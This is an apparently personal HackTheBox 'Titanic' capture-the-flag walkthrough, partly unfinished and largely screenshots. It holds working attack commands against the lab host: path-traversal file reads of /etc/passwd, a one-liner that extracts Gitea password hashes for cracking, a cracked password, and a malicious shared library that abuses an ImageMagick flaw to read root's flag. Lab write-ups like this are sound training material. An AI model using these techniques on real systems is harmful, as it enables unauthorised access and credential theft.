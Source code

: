 ```yaml
---
title: "Titanic"
date: 2025-04-12
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "titanic", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Titanic

# Summary

# Todo 
- [ ] 
# Notes

# Enumeration
## Nmap
TCP
```sh
Scanned at 2025-02-19 09:37:11 AEDT for 30s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (If you know what OS is running on it, see 
```
## HTTP
![screenshot](/assets/images/titanic1.png)
![screenshot](/assets/images/titanic3.png)
standard
![screenshot](/assets/images/titanic4.png)

deluxe
![screenshot](/assets/images/titanic6.png)

![screenshot](/assets/images/titanic7.png)

```sh
# unecoded
curl http://titanic.htb/download?ticket=php://filter/resource=admin.php

# encoded
curl http://titanic.htb/download?ticket=php://filter/convert.base64-encode/resource=admin.php

curl http://titanic.htb/download?ticket=ad6afd0b-171b-480a-b230-28970a343179/etc/passwd
```

![screenshot](/assets/images/titanic10.png)


![screenshot](/assets/images/titanic5.png)

![screenshot](/assets/images/titanic8.png)

![screenshot](/assets/images/titanic18.png)

![screenshot](/assets/images/titanic2.png)


![screenshot](/assets/images/titanic9.png)

```sh
# sub-domain fuzzing (vhost)
ffuf -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![screenshot](/assets/images/titanic11.png)

dev.titanic.htb
![screenshot](/assets/images/titanic12.png)

![screenshot](/assets/images/titanic13.png)
`admin:admin` `admin:password` did not work.
sign up

![screenshot](/assets/images/titanic14.png)

![screenshot](/assets/images/titanic15.png)

![screenshot](/assets/images/titanic16.png)
![screenshot](/assets/images/titanic17.png)

![screenshot](/assets/images/titanic19.png)

https://0xdf.gitlab.io/2024/12/14/htb-compiled.html

```sh
/data/gitea/gitea.db
```

![screenshot](/assets/images/titanic21.png)

https://0xdf.gitlab.io/2024/12/14/htb-compiled.html
get user hases 
```sh
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

![screenshot](/assets/images/titanic22.png)
![screenshot](/assets/images/titanic23.png)

```sh
# creds
developer : 25282528
```
## SMB

# Foothold
![screenshot](/assets/images/titanic24.png)

# Privilege Escalation
## Enumeration
![screenshot](/assets/images/titanic25.png)

![screenshot](/assets/images/titanic26.png)
-> Writable path abuse 

![screenshot](/assets/images/titanic27.png)
## Attempts
https://www.cybersecurity-help.cz/vdb/SB2024072801

![screenshot](/assets/images/titanic28.png)

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

### Read the flag
```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

![screenshot](/assets/images/titanic29.png)

### Get a shell
![[Pasted image 20250219153212.png]]
